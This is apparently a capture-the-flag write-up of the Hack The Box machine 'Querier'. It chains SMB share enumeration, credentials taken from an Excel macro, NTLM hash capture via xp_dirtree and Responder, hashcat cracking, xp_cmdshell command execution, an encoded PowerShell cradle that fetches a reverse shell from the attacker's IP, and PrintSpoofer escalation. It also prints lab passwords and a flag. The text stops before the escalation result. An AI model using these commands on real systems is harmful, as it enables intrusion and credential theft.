<div align="center">



</div>

## 📌 Overview

Querier is a medium Windows machine on Hack The Box. The entire box revolves around a running MSSQL server and abusing it step by step. The initial foothold starts with anonymous SMB enumeration that reveals a macro-enabled Excel file containing hardcoded database credentials. Those credentials log into the SQL server, which is then used to force an outbound NTLM authentication using `xp_dirtree` — captured by Responder and cracked offline. The cracked credentials open a higher-privilege SQL session where `xp_cmdshell` grants OS command execution, leading to a reverse shell. Privilege escalation follows from `SeImpersonatePrivilege` being enabled on a Server 2019 box — the right tool here is PrintSpoofer, run directly from an SMB share after every direct download attempt is blocked.

No web exploitation. No AD attack chains. Just SMB, SQL server abuse, and Windows privilege escalation.

## 🧭 Walkthrough

## Step 1 — Nmap Reconnaissance

Started with a fast full port scan:

```bash
nmap -p- --min-rate 5000 -Pn 10.129.34.72
```



Four ports open:

```
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
```

SMB on 445 and WinRM on 5985. No web server. The target is SMB first, then whatever is running behind it. Ran the detailed version scan:

```bash
nmap -T4 -sV -A -Pn 10.129.34.72
```



The version scan confirms Windows, fills in the SMB details, and reveals MSSQL on port 1433 — the real target for this whole box.

---

## Step 2 — SMB Enumeration

Listed all available shares anonymously:

```bash
smbclient -L //10.129.34.72 -N
```



Four shares visible: `ADMIN$`, `C$`, `IPC$`, and `Reports`. The first three are default Windows shares. `Reports` is non-standard and readable without credentials. Connected to it:

```bash
smbclient //10.129.34.72/Reports
```



A single file inside: `Currency Volume Report.xlsm`. That `.xlsm` extension means a macro-enabled Excel workbook. Downloaded it:

```
smb: \> get "Currency Volume Report.xlsm"
```

---

## Step 3 — Extracting Credentials from the Excel Macro

`.xlsm` files are ZIP archives. Unzipped it to inspect the internals:

```bash
unzip "Currency Volume Report.xlsm"
```



The archive extracts to standard Office XML structure including `xl/vbaProject.bin` — the compiled VBA macro binary. Two approaches from here: `olevba` to parse the macro, or `strings` directly on the binary. Used `strings` on `vbaProject.bin`:

```bash
strings vbaProject.bin
```



The macro contains a database connection string in plaintext. The `Pwd=` field is clearly visible. Also inspected `workbook.xml` to find the username embedded in the connection string:



Credentials recovered from the macro:

```
Username: reporting
Password: PcwTWTHRwryjc$c6
```

---

## Step 4 — MSSQL Login with Macro Credentials

Logged into the SQL server using the credentials extracted from the macro:

```bash
mssqlclient.py QUERIER/reporting:'PcwTWTHRwryjc$c6'@10.129.34.72 -windows-auth
```



Got an MSSQL prompt. The database context is set to `volume` — matching the connection string from the macro. Started enumerating permissions:

```sql
SELECT * FROM fn_my_permissions(NULL, 'SERVER');
```



The `reporting` user has limited permissions. `xp_cmdshell` is blocked and `enable_xp_cmdshell` fails — this account cannot reconfigure the server. But it can still run `xp_dirtree`.

---

## Step 5 — Stealing the NTLM Hash via Responder

The goal is to make the SQL server connect back to our machine. When it does, it authenticates using NTLM — Responder intercepts that authentication and captures the hash.

Started Responder on the tun0 interface:

```bash
sudo responder -I tun0 -v
```



Then inside the MSSQL session, forced the server to reach out to our IP using `xp_dirtree`:

```sql
EXEC xp_dirtree '\\10.10.17.9\share', 1, 1
```



The server attempted to authenticate to our fake SMB share. Responder caught the NTLMv2 hash of the `mssql-svc` service account:



```
NTLMv2-SSP Username: QUERIER\mssql-svc
NTLMv2-SSP Hash: MSSQL-SVC::QUERIER:bffa4b615354249a:...
```

---

## Step 6 — Cracking the Hash

Saved the captured hash to a file and ran hashcat against rockyou:

```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```



Mode 5600 is NTLMv2 — the exact format Responder captures. Cracked almost instantly:

```
MSSQL-SVC::QUERIER:... → corporate568
```

New credentials:

```
Username: mssql-svc
Password: corporate568
```

---

## Step 7 — Back into MSSQL with Higher-Privilege Credentials

Logged back into MSSQL with the cracked `mssql-svc` credentials:

```bash
mssqlclient.py QUERIER/mssql-svc:'corporate568'@10.129.34.72 -windows-auth
```



This account has higher privileges. Enabled `xp_cmdshell`:

```sql
enable_xp_cmdshell
```



Confirmed OS command execution:

```sql
xp_cmdshell whoami
```



```
querier\mssql-svc
```

Command execution confirmed as the service account.

---

## Step 8 — Getting a Reverse Shell

Two approaches were tried. First attempt: download a reverse shell executable directly to the target using `certutil`. Standard writable paths all returned access denied:

```sql
xp_cmdshell certutil -urlcache -f -split http://10.10.17.9/shell.exe C:\Windows\Temp\shell.exe
-- Access denied

xp_cmdshell certutil -urlcache -f -split http://10.10.17.9/shell.exe C:\Users\mssql-svc\AppData\Local\Temp\shell.exe
-- Access denied
```



File writes to disk are blocked. Switched to a fileless approach using a PowerShell reverse shell served over HTTP.

Created `shell.ps1` — a standard PowerShell TCP reverse shell:



The raw PowerShell download cradle contains characters that get mangled by `xp_cmdshell`. Encoded the command to UTF-16LE base64:

```bash
echo -n "IEX(New-Object Net.WebClient).downloadstring('http://10.10.17.9/shell.ps1')" | iconv -t UTF-16LE | base64 -w 0
```



Served the shell script with Python:

```bash
python3 -m http.server 80
```



Started a netcat listener:

```bash
rlwrap nc -lvnp 4433
```

Then triggered the encoded download from inside MSSQL:

```sql
enable_xp_cmdshell
xp_cmdshell "powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAToBlAHQALgBXAGUAYgBDAGwAaQBlAG50ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA3AC4AOQAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQA="
```



The listener caught the connection:



```
connect to [10.10.17.9] from (UNKNOWN) [10.129.34.97] 49677
Microsoft Windows [Version 10.0.17763.292]

C:\Windows\system32>
```

---

## Step 9 — User Flag

Navigated to the service account's Desktop:

```
C:\Users\mssql-svc\Desktop> type user.txt
```

**From the SQL shell** (before the reverse shell, using `xp_cmdshell`):



**From the reverse shell:**



```
e279290bf17ef06a6a085ca602504271
```

---

## Step 10 — Privilege Escalation Enumeration

First thing in any Windows shell — check privileges:

```
whoami /priv
```



```
SeImpersonatePrivilege    Impersonate a client after authentication    Enabled
```

`SeImpersonatePrivilege` is **Enabled**. The escalation path is decided. Confirmed the OS version:

```
systeminfo
```



```
OS Name:    Microsoft Windows Server 2019 Standard
OS Version: 10.0.17763 N/A Build 17763
```

Server 2019. This matters for tool selection. The two main tools for `SeImpersonatePrivilege`:

- **JuicyPotato** — COM server impersonation via CLSID. Works on Server 2008 R2 and older. Does NOT work on Server 2019.
- **PrintSpoofer** — abuses the Print Spooler named pipe. Works on Server 2016, 2019, 2022 and Windows 10.

This machine is Server 2019. PrintSpoofer is the correct tool.

---

## Step 11 — PrintSpoofer via SMB Share

Every attempt to download PrintSpoofer directly to disk was blocked — certutil returned `Access is denied` across all writable paths tried:



The fix: run PrintSpoofer directly from a UNC path without touching disk. Placed `PrintSpoofer64.exe` into a local SMB share served by Impacket:

```bash
mv PrintSpoofer64.exe smb/
smbserver.py -smb2support a smb/
```



Also placed `nc64.exe` in the SMB share for the netcat-based shell delivery. Started a second listener and triggered PrintSpoofer directly from the UNC path:

```
C:\Windows\Temp> \\10.10.17.9\a\PrintSpoofer64.exe -i -c cmd
```

